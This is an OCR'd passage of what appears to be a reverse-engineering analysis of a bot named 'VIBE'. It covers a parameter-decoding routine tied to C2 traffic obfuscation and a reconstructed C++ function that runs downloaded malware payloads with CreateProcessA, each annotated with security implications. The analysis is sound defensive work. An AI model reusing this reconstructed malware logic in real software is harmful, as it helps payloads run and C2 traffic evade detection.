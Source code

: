 ```cpp
        *write++ = (char)value;
    }
    
    *write = '\0';
    return hasDigits;
}
```

**Security Implications**:
- Part of command obfuscation system
- Helps avoid detection of C2 traffic
- Used for parameter encoding/decoding
- Supports covert command channel

**Relationship to Other Functions**:
- Used by command processing functions
- Supports `VIBE::process_bot_command`
- Part of the C2 infrastructure

### 10. VIBE::create_payload_process

**Purpose**: Creates new processes from downloaded malware payloads.

**Location**: Function located at address 0x403720

**Key Features**:
- Uses CreateProcessA for process creation
- Normal priority to avoid detection
- Minimal process creation flags
- Standard startup info configuration

**Implementation Details**:
```cpp
bool create_payload_process(const char* payload_path) {
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    
    // Initialize structures
    memset(&si, 0, sizeof(STARTUPINFO));
    memset(&pi, 0, sizeof(PROCESS_INFORMATION));
    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_SHOW;
    
    // Create process with minimal flags
    return CreateProcessA(
        NULL,                   // No module name (use command line)
        (LPSTR)payload_path,    // Command line
        NULL,                   // Process handle not inheritable
        NULL,                   // Thread handle not inheritable
        FALSE,                  // Don't inherit handles
        NORMAL_PRIORITY_CLASS,  // Normal priority
        NULL,                   // Use parent's environment block
        NULL,                   // Use parent's starting directory
        &si,                    // Startup info
        &pi                     // Process information
    );
}
```

